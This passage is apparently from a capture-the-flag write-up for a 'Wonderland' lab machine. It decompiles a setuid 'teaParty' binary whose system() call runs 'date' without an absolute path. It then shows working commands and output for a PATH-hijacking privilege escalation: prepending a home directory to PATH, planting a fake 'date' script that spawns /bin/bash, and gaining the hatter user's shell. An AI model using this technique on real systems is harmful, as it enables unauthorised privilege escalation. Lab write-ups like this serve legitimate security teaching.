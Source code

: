 Weirdly, we observe a "Segmentation fault (core dumped)" string contained in the binary. Suspect the segmentation fault, isn't a true segmentation fault. 

We also observe the string "/bin/echo -n 'Probably by ' && date --date='next hour' -R". This is interesting as we can observe a call to the `date` command and because the path isn't absolute it's utilsing `PATH` to locate the file. We can hijack this path call and shove our own arbitary implementation of the `date` command on `PATH` to hijack code execution. 

First lets crack the binary open using [dogbolt](https://dogbolt.org/). Lets upload the binary and let `dogbolt` decompile the binary for us. 

I like using Ghidra or Binary Ninja. It typically produces the most readable decompiled code for me. Navigating to the main function call we observe the following

```c
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

Our suspicion is confirmed regarding the `date` command. 

We also observe the binary sets both the uid and guid to `0x3eb`, not `root`. From the information exposed using `linpeas.sh` above and converting from hex to decimal we get user id `1003`. So exploiting this binary will set us our user and group permissions for the `hatter` account. 

To exploit the `date` command, we need to create our own `date` with code to spawn a shell, and we need to prefix this location onto `PATH`

Lets start by prefixing `/home/rabbit` to `PATH`

```
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit/:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
Done. Now lets create a python script called `date` at `/home/rabbit` so we hijack code execution when running the `teaParty` binary. As above, lets use the python spawn shell code. 

It is important we also set the file as executable using `chmod`

```
rabbit@wonderland:/home/rabbit$ cat > date << EOF
python3 -c 'import os; os.system("/bin/bash")'
EOF

rabbit@wonderland:/home/rabbit$ chmod +x date 

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```
